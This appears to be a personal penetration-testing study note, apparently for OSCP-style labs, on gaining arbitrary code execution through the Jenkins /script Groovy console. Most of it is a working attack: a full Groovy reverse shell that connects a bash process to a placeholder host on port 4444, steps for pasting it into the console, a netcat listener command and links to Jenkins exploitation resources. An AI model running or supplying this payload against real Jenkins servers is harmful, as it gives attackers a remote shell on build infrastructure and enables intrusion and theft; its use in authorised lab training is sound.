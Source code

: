 # Jenkins
﷽
* software tool that automates tasks in software development, such as building, testing and deploying code, to help teams deliver applications faster and more reliably.

## guides and resources

1) `https://cloud.hacktricks.wiki/en/pentesting-ci-cd/jenkins-security/index.html#rce-in-jenkins`

2. `https://github.com/gquere/pwn_jenkins`

3. full reverse shell code:

```groovy
String host="myip";
int port=4444;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

## usage

* firstly, remember to check the version (bottom-right) with tools such as `searchsploit` for potential exploits.

---

* we can get an ACE (Arbitrary Code Execution) on a server running Jenkins by visiting the Jenkins website:
  * `http://{jenkins-site}/script`
    * this console allows ACE via the language `groovy`. eg. `println("Hello World")` outputs Hello World.

* now, we are to obtain a reverse shell.
  * reverse shells are obtained for multiple reasons:
    1. Simplicity in implementation
    2. Better firewall evasion

* since Jenkins' console uses `groovy`, we are to use a `groovy` payload for this task. The payload can be found at the top of this page, but is also in the file `resources.md` in the root of `~/hacking/oscp/`.

* replace the `host` variable with our IP (the one on utun7 / whatever `ovpn` is using), which can be checked by the command
  * `ifconfig | awk '/^utun[0-9]+:/ { iface=$1 } $1=="inet" && $2 ~ /^10\.10\./ { print iface, $2 }'`

* ensure the `nc` listener is up at the correct port,
  * `nc -ulvnp 4444` where 4444 is the port.
